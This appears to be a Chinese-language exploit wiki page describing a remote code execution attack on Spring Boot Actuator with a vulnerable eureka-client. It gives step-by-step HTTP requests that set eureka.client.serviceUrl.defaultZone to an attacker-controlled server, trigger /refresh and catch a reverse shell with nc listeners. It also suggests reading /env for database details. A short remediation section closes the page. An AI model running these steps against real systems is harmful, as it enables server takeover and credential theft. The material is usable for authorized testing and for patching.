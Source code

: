 # eureka xstream deserialization RCE

## 利用条件：

 - 可以 POST 请求目标网站的 /env 接口设置属性
 - 可以 POST 请求目标网站的 /refresh 接口刷新配置（存在 spring-boot-starter-actuator 依赖）
 - 目标使用的 eureka-client < 1.8.7（通常包含在 spring-cloud-starter-netflix-eureka-client 依赖中）
 - 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

## 利用方法：

### 步骤一：架设响应恶意 XStream payload 的网站

使用 python3 在自己控制的服务器上运行[脚本](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/SpringBoot/Actuator(eureka%20xstream%20deserialization%20RCE)/file/example.py)，并根据实际情况修改脚本中反弹 shell 的 ip 地址和 端口号。


### 步骤二：nc 监听反弹 shell 的端口

```bash
nc -lvnp 8446
```

### 步骤三：设置 eureka.client.serviceUrl.defaultZone 属性

访问`/env`端点，抓包将get请求改为post请求，post内容为：

`eureka.client.serviceUrl.defaultZone=http://<yourvpsip>:2222/example`

spring 1.x

```bash
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://<yourvpsip>:2222/example
```
spring 2.x

```bash
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://<yourvpsip>:2222/example"}
```

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/SpringBoot/Actuator(eureka%20xstream%20deserialization%20RCE)/img/refreh.jpg)

### 步骤四：刷新配置

spring 1.x

```bash
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```bash
POST /actuator/refresh
Content-Type: application/json
```

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/SpringBoot/Actuator(eureka%20xstream%20deserialization%20RCE)/img/request.jpg)

### 步骤五：服务器接收到shell，并且能成功执行命令

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```

> ⚠️ 同时访问/env端点获取全部环境属性，由于 actuator 会监控站点 mysql、mangodb 之类的数据库服务，所以通过监控信息有时可以展示mysql、mangodb 数据库信息.

## 漏洞原理：

1. eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
2. refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
3. 目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞

## 漏洞分析：

 - Actuator是Spring Boot提供的服务监控和管理中间件，默认配置会出现接口未授权访问，部分接口会泄露网站流量信息和内存信息等，使用Jolokia库特性甚至可以远程执行任意代码，获取服务器权限
 - XStream：XStream是Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。
 - /env端点配置不当造成RCE

## 漏洞修复

### 一 禁用所有接口：

`endpoints.enabled = false`

### 二 pom.xml文件引入spring-boot-starter-security依赖：

```bash
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-security</artifactId>
</dependency>
```

### 三 开启security功能，配置访问权限验证，类似配置如下：

```bash
management.port=8099
management.security.enabled=true
security.user.name=xxxxx
security.user.password=xxxxxx
```